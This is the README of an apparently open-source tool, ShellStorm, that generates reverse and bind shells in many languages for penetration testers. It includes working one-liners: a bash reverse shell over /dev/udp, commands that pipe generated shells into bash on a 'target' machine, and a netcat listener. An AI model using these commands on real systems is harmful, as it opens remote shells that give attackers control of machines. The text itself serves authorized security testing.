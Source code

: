 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  

* Install requirements for generate **WAR** package.  
<pre>sudo apt-get update -y && sudo apt-get install default-jdk -y</pre>

## Available languages/programs  
<pre>
asp
awk
bash
c
cpan
dart
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
sbd
socat
telnet
war
</pre>

# Screenshots
![alt text](https://github.com/0bfxGH0ST/ShellStorm/blob/main/screenshots/screenshot01.png)  
![alt text](https://github.com/0bfxGH0ST/ShellStorm/blob/main/screenshots/screenshot2.png)  

## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>
